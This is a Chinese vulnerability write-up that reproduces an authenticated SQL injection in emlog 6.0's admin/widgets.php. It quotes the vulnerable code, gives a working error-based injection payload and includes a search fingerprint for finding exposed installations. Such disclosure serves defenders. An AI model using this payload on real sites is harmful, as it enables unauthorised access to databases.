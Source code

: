 # emlog widgets.php 后台SQL注入漏洞

## 漏洞描述

emlog widgets.php文件在登录后通过构造特殊语句导致SQL注入，获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>emlog 6.0 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EMLOG"</a-checkbox></br>

## 漏洞复现

产品主页

```python
https://github.com/emlog/emlog
```

![img](../../../.vuepress/public/img/1634002177714-22159b01-c44f-476a-bb4f-8363cceb9460.png)

存在漏洞的文件为 `admin/widgets.php`

![img](../../../.vuepress/public/img/1634002231213-67b50259-52f0-4cf0-983b-fc1a88cc6471.png)

```python
if ($action == 'compages') {
    $wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
    $widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
    Option::updateOption("widgets{$wgNum}", $widgets);
    $CACHE->updateCache('options');
    emDirect("./widgets.php?activated=true&wg=$wgNum");
}
```

传参为 wgnum 和 widgets ，跟踪方法 `updateOption`

![img](../../../.vuepress/public/img/1634002837216-c1000372-81ea-4671-bc5d-c378110d93db.png)

```python
static function updateOption($name, $value, $isSyntax = false){
        $DB = Database::getInstance();
        $value = $isSyntax ? $value : "'$value'";
        $DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
    }
```

可以发现对传入的参数木有进行过滤，构造Payload

```python
POST /admin/widgets.php?action=compages

widgets=1' and updatexml(0x3a,concat(1,(select user())),1)-- 
```

调试后可以发现，数据库报错语句会回显至页面中，报错注入即可获取敏感信息

![img](../../../.vuepress/public/img/1634002917512-820b18c8-d37a-4507-974c-1ba9c2afc2ed.png)![img](../../../.vuepress/public/img/1634003089227-452c8b4e-d367-4f01-af1f-e90a79bfd91f.png)